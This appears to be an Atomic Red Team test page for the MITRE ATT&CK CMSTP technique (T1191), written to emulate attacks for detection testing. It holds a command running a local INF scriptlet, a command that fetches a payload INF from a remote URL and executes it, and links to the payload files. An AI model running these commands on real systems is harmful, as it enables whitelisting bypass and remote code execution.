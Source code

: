 # CMSTP

## MITRE ATT&CK Technique:
[T1191](https://attack.mitre.org/wiki/Technique/T1191)

## Scriptlet execution

### Local

Local:

    cmstp.exe /s CMSTP.inf

Remote:

    cmstp.exe /ni /s https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/CMSTP.inf

## Test Script

[CMSTP.INF](https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/CMSTP.inf)

[CMSTP.SCT](https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/CMSTP.sct)
